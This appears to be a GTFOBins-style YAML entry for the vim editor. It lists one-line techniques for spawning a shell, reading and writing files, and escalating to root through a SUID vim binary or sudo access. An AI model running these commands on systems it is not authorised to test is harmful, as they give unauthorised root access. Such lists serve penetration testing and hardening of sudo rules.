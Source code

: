 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
    - code: vim -c ':py import os;os.system("sh")'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid:
    - code: ./vim -c ':!/bin/sh -p'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - code: sudo vim -c ':py import os;os.system("sh")'
---
```

